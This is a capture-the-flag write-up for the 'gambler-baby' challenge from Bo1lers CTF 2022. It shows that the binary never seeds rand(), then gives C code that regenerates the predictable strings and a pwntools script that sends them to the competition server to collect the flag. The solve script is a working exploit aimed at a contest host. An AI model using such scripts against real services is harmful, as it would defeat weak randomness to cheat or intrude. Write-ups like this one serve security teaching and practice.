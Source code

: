 ```yaml
---
title: "[Pwn] gambler-baby [Bo1lers CTF 2022]"
date: 2022-04-28 23:21:00
---
```


# 0x0 Introduction

Feeling lucky?

You must create a flag.txt in the same folder as the binary for it to run.
nc ctf.b01lers.com 9202

Author: robotearthpizza
Difficulty: Easy

files: [gambler_baby](gambler_baby)

# 0x1 Mitigation

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

# 0x2 Vulnerability

function `sym.casino` ask for a 4 byte string using `fgets`, then it compare with a random string generate by `sym.imp.rand()`. 

If we enter the same string as the random one, we get certain amount of money. If we have more than 1000 in balance, the program will print out the flag

```
{
    do {
        // generate random string
        sym.imp.fgets(&s2, 5, _reloc.stdin);
        iVar1 = sym.imp.strcmp(&s1);
        // add or subtract balance depend on the result
    } while (_obj.balance < 1000);
    sym.give_flag();
    return;
}
```

The vulnerability here is that the binary never set random seed using `srand`, therefore, the sequence `rand()` give us will always be the same.

we can use following code to generate string and send string to the server

```
#include <stdlib.h>
#include <stdio.h>

int main () {
    char s[5];
    s[4] = '\x0';
    for (int j=0;j<200;j++) {
        for (int i=0;i<4;i++) {
            int x = rand();
            s[i] = x + (x / 0x1a) * -(0x1a) + 'a';
        }
        printf("\"%s\",",s);
    }
}
```


# 0x3 Exploit

```
from pwn import *

values = ["nwlr","bbmq","bhcd","arzo","wkky","hidd","qscd","xrjm","owfr","xsjy","bldb","efsa","rcby","necd","yggx","xpkl","orel","lnmp","apqf","wkho","pkmc","oqhn","wnku","ewhs","qmgb","buqc","ljji","vswm","dkqt","bxix","mvtr","rblj","ptns","nfwz","qfjm","afad","rrws","ofsb","cnuv","qhff","bsaq","xwpq","cace","hchz","vfrk","mlno","zjkp","qpxr","jxki","tzyx","acbh","hkic","qcoe","ndto","mfgd","wdwf","cgpx","iqvk","uytd","lcgd","ewht","acio","hord","tqkv","wcsg","spqo","qmsb","oagu","wnny","qxnz","lgdg","wpbt","rwbl","nsad","eugu","umoq","cdru","beto","kyxh","oach","wdvm","xxrd","ryxl","mndq","tukw","agml","ejuu","kwci","bxub","umen","meya","tdrm","ydia","jxlo","ghiq","fmzh","lvih","jouv","suyo","ypay","ulye","imuo","tehz","riic","fskp","ggkb","bipz","zrzu","cxam","ludf","ykgr","uowz","gioo","obpp","leql","wpha","pjna","dqhd","cnvw","dtxj","bmyp","ppha","uxns","pusg","dhii","xqmb","fjxj","cvud","jsuy","ibye","bmws","iqyo","ygyx","ymze","vypz","vjeg","ebeo","cfuf","tsxd","ixti","gsie","ehkc","hzdf","lilr","jqfn","xztq","rsvb","spky","hsen","bppk","qtpd","dbuo","tbbq","cwiv","rfxj","ujjd","dntg","eiqv","dgai","jvwc","yaub","wewp","jvyg","ehlj","xepb"]

io = connect("ctf.b01lers.com", 9202)
i = 0
try:
    while True:
        lp(io.sendlineafter(b"letters: ",values[i].encode()))
        i+=1
except:
    pass
print(io.recv())

io.interactive()
```

# 0x4 Flag

forgot
